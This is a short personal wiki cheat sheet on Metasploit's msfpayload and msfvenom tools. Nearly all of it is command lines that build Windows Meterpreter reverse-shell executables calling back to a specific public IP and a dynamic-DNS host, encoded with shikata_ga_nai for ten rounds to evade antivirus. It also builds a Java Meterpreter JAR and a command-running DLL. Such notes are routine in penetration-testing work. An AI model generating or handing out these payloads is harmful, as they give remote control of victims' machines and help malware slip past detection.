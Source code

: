 <!-- TITLE: Msfvenom -->
<!-- SUBTITLE: A quick summary of Msfvenom -->

# Header
Following is pretty old.  MSFvenom instead of msfpayload, but things I need to look up.
Encrypting
./msfpayload windows/meterpreter/reverse_tcp LHOST=71.229.140.156 LPORT=9999 R | ./msfencode -t exe > meterp.exe
[*] x86/shikata_ga_nai succeeded with size 318 (iteration=1)

NEW ONE:
./msfpayload windows/meterpreter/reverse_tcp_dns LHOST=olympus.dyns.cx LPORT=9998 R | ./msfencode -c 10 -t exe > meterp.exe

Make a DLL exploit with msfpayload
msfpayload windows/exec CMD=calc.exe D > test.dll

Java Jar file (note the [R]aw and not [J]avascript output.)
./msfpayload java/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT 9996 R > file.jar 

[Payload in a DLL](/payloaddll) - (msfvenom can do this now, but interesting for future anyway.)

[Powershell Example](/metasploit-powershell-payload)

